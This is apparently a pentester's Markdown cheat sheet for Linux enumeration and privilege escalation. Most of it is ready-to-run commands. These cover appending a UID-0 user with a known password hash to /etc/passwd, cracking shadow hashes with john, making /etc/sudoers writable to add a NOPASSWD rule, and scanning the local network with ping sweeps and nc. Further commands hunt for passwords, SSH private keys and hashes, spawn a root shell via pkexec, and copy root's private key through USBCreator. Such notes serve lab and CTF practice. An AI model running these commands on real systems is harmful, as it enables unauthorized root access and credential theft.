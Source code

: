 ```yaml
---
icon: stethoscope
---
```


# Enumeration

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html" %}

<details>

<summary><mark style="color:purple;"><strong><code>Basic</code></strong></mark></summary>

{% code title="Check user permissions" %}
```bash
sudo -l
```
{% endcode %}

{% code title="Check hostname" %}
```sh
hostname -I
```
{% endcode %}

{% code title="Check the internal network" %}
```sh
ifconfig
```
{% endcode %}

{% code title="User with shells" %}
```sh
grep "sh$" /etc/passwd
```
{% endcode %}

{% code title="Check Ownership by group" %}
```
find / -group management 2>/dev/null
```
{% endcode %}

{% code title="Check processes" %}
```sh
ps auxww
```
{% endcode %}

{% code title="Check mounted devices" %}
```sh
mount
```
{% endcode %}

{% code title="Container processes " lineNumbers="true" %}
```sh
ps auxww | grep docker
ps auxww | grep lxd
```
{% endcode %}

{% code title="Read crontab file" %}
```sh
cat /etc/crontab
```
{% endcode %}

{% code title="Check Services running" %}
```sh
ls /etc/init.d
```
{% endcode %}

{% code title="Check System info" %}
```sh
uname -a
```
{% endcode %}

{% code title="Check groups file" %}
```powershell
cat /etc/group
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**`adm`**</mark> <mark style="color:purple;">group can read log files.</mark>

```sh
cat /var/log
```
{% endhint %}

{% code title="Show listening ports" %}
```sh
netstat -tuln
netstat -tnl
```
{% endcode %}

{% code title="Listen to the localhost" %}
```sh
netstat -an -p tcp
```
{% endcode %}

{% code title="Check binaries with capabilities" %}
```sh
getcap -r / 2>/dev/null
```
{% endcode %}

{% code title="SUID/SETGID binaries" %}
```sh
find / -perm -4000 -or -perm -2000 2>/dev/null
```
{% endcode %}

{% code title=" Traces library function calls" overflow="wrap" %}
```sh
ltrace ProgramName
```
{% endcode %}

{% code title="Search Kernel for Exploits" %}
```sh
searchsploit "Linux Kernel" | grep <version>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/passwd</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`Write Permissions`**</mark>

{% code title="Generate the password hash" overflow="wrap" %}
```sh
openssl passwd -1 tokyo
```
{% endcode %}

{% code title="Add the line " overflow="wrap" %}
```sh
echo 'tokyo:$1$iLayOiAd$8dHGiU.Qvk/uqjnoWzRpm/:0:0:tokyo:/root:/bin/bash' >> passwd
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/shadow</code></strong></mark></summary>

{% hint style="info" %}
{% code title="Create the Hash file" overflow="wrap" %}
```sh
echo 'zoe:$y$j9T$Ct0y5TNQ/sv95CFPz510O/$7YtCDOBISfngZeQ3rsDkRcw2XTFDgHBkxDpuhyBLNO1:1002:1002:zoe:/home/zoe:/bin/bash' > shadowHash.txt
```
{% endcode %}

{% code title="Crack the hash" overflow="wrap" %}
```sh
john --wordlist=~/Documents/Wordlists/rockyou.txt shadow.txt --format=crypt
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>/etc/sudoers</code></strong></mark></summary>

{% hint style="info" %}
{% code title="Try to read it" %}
```sh
cat /etc/sudoers
```
{% endcode %}

* <mark style="color:purple;">If the file is read-only, you need to change its permissions to allow write access:</mark>

```sh
chmod +w /etc/sudoers
```

* <mark style="color:purple;">Add the following line:</mark>

```
yourUser   ALL=(ALL) NOPASSWD: ALL
```

* <mark style="color:purple;">Restore the original file permissions to make it read-only again:</mark>

```sh
chmod 440 /mnt/etc/sudoers
```
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Scan the local network</code></strong></mark></summary>

* <mark style="color:purple;">Find one many hosts there are in the network by doing a</mark> <mark style="color:orange;">**`ping sweep`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
for i in {1..254}; do (ping -c 1 192.168.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`nc`**</mark> <mark style="color:purple;">is installed can be use to scan for open ports:</mark>

{% code overflow="wrap" %}
```sh
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v refused | tee scan
```
{% endcode %}

{% code title="UDP scan" overflow="wrap" %}
```sh
nc -uzv 192.168.0.1 1-65535 2>&1 | grep -v refused
```
{% endcode %}

#### [<kbd><mark style="color:orange;">Nmap Binary<mark style="color:orange;"></kbd>](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64)

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Credential Hunting</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">`Passwords`</mark>

* <mark style="color:purple;">Search for the string</mark> <mark style="color:orange;">**`pass`**</mark> <mark style="color:purple;">(case-insensitive) in all files and directories recursively:</mark>

{% code overflow="wrap" %}
```sh
grep -iR "pass" * 2>/dev/null
```
{% endcode %}

* <mark style="color:purple;">Search for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**the string**</mark>**&#x20;**<mark style="color:orange;">**`password`**</mark> <mark style="color:purple;">in files with double extension, recursively:</mark>

```sh
grep password .*.* -r 2>/dev/null
```

* <mark style="color:purple;">Search for</mark> <mark style="color:orange;">**`ssh`**</mark> <mark style="color:purple;">keys recursively from the current directory you are in:</mark>

{% code overflow="wrap" %}
```sh
grep -iR -E "(ssh-(rsa|ed25519|dss|ecdsa|rsa1)[ ]+[A-Za-z0-9+/=]+|-----BEGIN [A-Z ]+PRIVATE KEY-----)" * 2>/dev/null
```
{% endcode %}

#### <mark style="color:red;">**`Hashes`**</mark>

{% code title="MD5 hashes" %}
```sh
grep -aPo '[a-fA-F0-9]{32}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-1" %}
```sh
grep -aPo '[a-fA-F0-9]{40}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-256" %}
```sh
grep -aPo '[a-fA-F0-9]{64}' /DESIRED/PATH
```
{% endcode %}

{% code title="SHA-512" %}
```sh
grep -aPo '[a-fA-F0-9]{128}' /DESIRED/PATH
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Polkit</code></strong></mark></summary>

{% code title="Check policy" overflow="wrap" %}
```sh
cat /etc/polkit-1/localauthority.conf.d
```
{% endcode %}

{% code title="Become root" overflow="wrap" %}
```sh
pkexec "/bin/sh"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>USBCreator</code></strong></mark></summary>

* <mark style="color:purple;">Allows to over write files with</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">permissions:</mark>

{% code title="Copy root private key" overflow="wrap" %}
```sh
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/id_rsa true
```
{% endcode %}

</details>

